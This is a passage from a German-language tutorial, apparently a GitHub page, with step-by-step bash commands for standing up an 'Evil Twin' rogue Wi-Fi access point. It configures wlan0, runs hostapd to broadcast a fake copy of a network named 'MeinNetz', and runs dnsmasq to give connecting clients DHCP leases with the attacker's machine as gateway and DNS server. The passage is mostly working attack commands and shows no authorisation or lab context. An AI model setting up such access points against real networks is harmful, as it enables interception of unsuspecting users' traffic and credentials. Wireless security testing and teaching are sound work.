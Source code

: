 #### Schritt 2: Interface vorbereiten

```bash
# Managed Mode (nicht Monitor!)
ip link set wlan0 down
iw dev wlan0 set type managed
ip link set wlan0 up

# IP-Adresse zuweisen (für DHCP später)
ip addr add 192.168.10.1/24 dev wlan0
```

#### Schritt 3: hostapd starten

```bash
# Test-Start (Foreground)
hostapd /tmp/hostapd.conf

# Du solltest sehen:
# wlan0: interface state UNINITIALIZED->ENABLED
# wlan0: AP-ENABLED

# Evil Twin ist jetzt live!
# Clients sehen "MeinNetz" in ihrer WiFi-Liste
```

**In anderem Terminal / von deinem Laptop:**
- Schaue in WiFi-Liste
- "MeinNetz" sollte erscheinen (evtl. zweimal - echt + fake)
- Versuche Verbindung (funktioniert noch nicht ohne DHCP)

#### Schritt 4: DHCP-Server (dnsmasq)

**Clients brauchen IP-Adressen:**

```bash
# Installiere dnsmasq
apt-get install dnsmasq

# Stoppe default Service
systemctl stop dnsmasq

# Erstelle Config
cat > /tmp/dnsmasq.conf << EOF
interface=wlan0
dhcp-range=192.168.10.10,192.168.10.100,12h
dhcp-option=3,192.168.10.1
dhcp-option=6,192.168.10.1
server=8.8.8.8
log-queries
log-dhcp
EOF

# Starte dnsmasq
dnsmasq -C /tmp/dnsmasq.conf -d

# -d = debug/foreground Mode
```
